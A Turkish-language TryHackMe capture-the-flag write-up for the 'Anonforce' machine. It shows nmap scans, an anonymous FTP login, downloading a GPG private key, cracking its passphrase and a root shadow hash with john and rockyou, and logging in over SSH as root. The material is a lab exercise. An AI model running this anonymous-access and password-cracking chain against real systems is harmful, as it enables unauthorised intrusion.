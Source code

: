 ```yaml
---
title: "Anonforce Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere [TryHackMe](https://tryhackme.com/) platformunda bulunan "Anonforce" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```shell
nmap -sS -sV -O 10.10.97.179
```

2 - Makine üzerinde FTP ve SSH portlarının açık olduğunu görüyorum.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 15:00 +03
Nmap scan report for 10.10.97.179
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

3 - Nmap aracını kullanarak Anonymous FTP testi yapıyorum. FTP servisine anonymous:anonymous bilgileri ile giriş yapılabildiğini görüyorum.

```
> nmap --script ftp-anon -p 21 10.10.97.179

*
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
*
```

4 - "notread" dizinin içinde "backup.gpg" ve "private.asc" adında iki dosya mevcut. mget ile bunları indiriyorum.

```shell
> ftp 10.10.97.179

*
ftp> ls
229 Entering Extended Passive Mode (|||61485|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> mget *
*
```

5 - "private.asc" dosyasının şifresini kırmak için john aracını kullanıyorum.

```
> gpg2john private.asc > hash
> john hash -w=/usr/share/wordlists/rockyou.txt
```

6 - GPG dosyasını içeri aktardığımda bir shadow dosyası içeriği görüyorum. Tekrardan john aracı ile root kullanıcısının şifresini kırmaya çalışıyor.

```shell
> gpg --import private.asc

*
root:$6$07**************************************
*

> john hash -w=/usr/share/wordlists/rockyou.txt
```

7 - SSH ile makineye bağlanıyorum.

```bash
> ssh root@10.10.97.179
```

8 - Makine üzerindeki bayrakları okuyarak odayı tamamlıyorum.
`
```bash
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
***CENSORED***
root@ubuntu:~# ls /home
melodias
root@ubuntu:~# cat /home/melodias/user.txt 
***CENSORED***
```